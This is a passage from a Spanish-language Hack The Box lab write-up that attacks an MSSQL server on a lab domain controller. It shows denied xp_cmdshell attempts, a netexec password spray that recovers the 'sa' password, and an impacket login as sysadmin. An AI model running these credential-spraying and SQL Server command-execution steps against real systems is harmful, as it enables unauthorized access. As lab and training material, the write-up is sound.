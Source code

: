Intento ejecutar comandos con `xp_cmdshell` y activarlo pero no tiene permisos:

```
SQL (SEQUEL\oscar  guest@master)> xp_cmdshell whoami
ERROR(DC01\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```

```
SQL (SEQUEL\oscar  guest@master)> enable_xp_cmdshell
ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement
```

Solo se encuentran bases de datos predeterminadas:

```
SQL (SEQUEL\oscar  guest@master)> SELECT name FROM sys.databases;
name     
------   
master   

tempdb   

model    

msdb     

SQL (SEQUEL\oscar  guest@master)>
```

Realizo un segundo spray en `mssql` agregando la opción `--local-auth` para usuarios creados en la propia base de datos:

```
netexec mssql --local-auth sequel.htb -u users -p passwords --continue-on-success | grep -F [+]
```

```
MSSQL                    10.129.1.36     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

Usuario administrador `sa` :D

## Shell como sql_svc

```
impacket-mssqlclient sequel.htb/sa:'MSSQLP@ssw0rd!'@dc01.sequel.htb
```

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```
